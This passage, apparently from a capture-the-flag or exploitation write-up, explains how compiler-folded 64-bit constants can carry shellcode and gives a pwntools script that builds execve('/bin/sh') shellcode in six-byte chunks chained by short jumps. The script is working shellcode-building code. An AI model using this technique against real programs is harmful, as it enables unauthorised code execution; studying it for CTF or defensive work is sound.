 Doing this, the compiler kindly folds these constants and gives us our `movabs` instruction with the desired operand:

```
movabs rax,0x4141414142424242
```

Yay!

## Jumping Shellcode

This part is fairly straightforward - we just use standard shellcode to `execve` `"/bin/sh"` one instruction at a time (must fit within 6 bytes), padding with NOPs where necessary, and then using two bytes for a `jmp $+8`:

```py
from pwn import *
context.arch = "amd64"

binsh = b"/bin/sh\x00"[::-1]

def pad_and_jump(s):
    s = asm(s)
    l = s + b'\x90' * (6-len(s)) + asm('jmp $+8')
    print(f'0x' + l[::-1].hex())
    return l

sc = b""

for i in range(4):
    b1 = binsh[2*i]
    b2 = binsh[2*i+1]
    sc += pad_and_jump(f"mov bx, 0x{bytes([b1,b2]).hex()}")

    # avoid having the exact same 64-bit value to prevent
    # compiler from optimising them out
    if i == 0:
        sc += pad_and_jump("shl rbx, 0x10\nxor eax, eax")
    elif i == 1:
        sc += pad_and_jump("shl rbx, 0x10\nxor ecx, ecx")
    elif i == 2:
        sc += pad_and_jump("shl rbx, 0x10\nxor edx, edx")

lines = """push rbx
xor rax, rax
mov al, 0x3b
xor rdx, rdx
xor rsi, rsi
mov rdi, rsp
syscall"""
for l in lines.splitlines():
    sc += pad_and_jump(l)

print(disasm(sc))
```
